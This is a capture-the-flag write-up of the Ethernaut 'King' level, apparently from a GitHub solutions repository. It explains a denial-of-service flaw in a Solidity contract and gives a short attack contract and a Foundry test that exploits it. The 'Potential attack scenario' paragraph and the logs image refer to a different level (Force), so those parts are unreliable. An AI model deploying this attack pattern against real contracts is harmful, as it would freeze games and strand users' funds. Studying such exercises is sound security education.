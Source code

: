 # Level 9 - King

## Objectives

- Break the game! You will beat the level if you can avoid such a self proclamation.

## Contract Overview

The `King` contract is a simple Ponzi game. Players send ether to the contract (a prize). Whoever sends an amount of ether that is larger than the current prize becomes the new king. The old king gets the new prize. He earns the difference between the new prize and the old prize (the prize that he set).

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/King_slither.png)

## Finding the weak spots

The weak spot is the `receive` function that is a special function that allow the contract to receive directly Ethers from external contract or EOA. It looks like:

```solidity
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

The first thing that we see is `require(msg.value >= prize || msg.sender == owner)`. This check allows the owner of the contract to always take the kingship of the contract, resetting all the values.

From a security standpoint, this is a huge concern in general because this function allows the owner to reset everything without repaying the current king and leaving funds stuck in the contract. But this is not the main problem that will let us exploit the contract and solve the challenge.

The problem is inside the `king.transfer(msg.value)` instruction. The transfer function allow a contract to transfer X amount of ETH from an sender to a receiver. Let's remind that we can send Ether to other contracts by:

- transfer
- send
- call

  | Function   | Amount of Gas Forwarded        | Exception Propagation              |
  | :--------- | :----------------------------- | :--------------------------------- |
  | `send`     | 2300 (not adjustable)          | `false` on failure (returns bool)  |
  | `transfer` | 2300 (not adjustable)          | `throws` on failure (throws error) |
  | `call`     | all remaining gas (adjustable) | `false` on failure (returns bool)  |

  _Reference: https://solidity-by-example.org/sending-ether/_

In `King` contract we have `transfer` method so that the transaction reverts and when `transfer` reverts also `receive` reverts. Reverting will make the `King` contract unusable, because no one will be able to become the new King!

Therefore, to finish this level, we just need to deploy a malicious contract, that will send Ether to `King` contract and that will not accept any kind of Ether transfer toward it.

## Potential attack scenario (hypothesis)

Attacker can create a malicious contract that will contain an `attack` function that trigger `selfdestruct` and specify the address of the `Force` contract as the target. Funds it with some Ether, calls the `attack` function and this way he will increase the balance of the `Force` contract.

## Plan of the attack

1. Attacker creates the malicious contract that will send Ether (current prize) to the victim contract.
2. Attacker becomes the new king.
3. Victim contract will try to reclaim the kingship by sending an equivalent amount of prize money to the attacker contract via `transfer` function.
4. Attacker contract won't implement any method `fallback()` or `receive()` to handle Ether transfer. That is why attacker contract will not be able to receive any Ether, the transfer call from victim contract will simply revert, reverting the whole transaction and the level won't be able to become the new king.

## Malicious contract (KingAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./King.sol";

contract KingAttack {
    constructor(address payable to) public payable {
        (bool success, ) = to.call{value: msg.value}("");
        require(success, "Call failed");
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/09-King.t.sol))

```solidity
        emit log_string(
            "Deploying the attack contract and sending ether to claim kingship...."
        );
        KingAttack kingAttack = new KingAttack{value: kingContract.prize()}(
            payable(levelAddress)
        );

        emit log_named_address("Attacker address: ", address(kingAttack));

        emit log_named_address("New king: ", kingContract._king());

        // Test assertion
        assertEq(kingContract._king(), address(kingAttack));
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Force.png)

## Recommendations

- External calls should be used with caution and proper error handling should be implemented on all external calls.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-9-solution-king)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
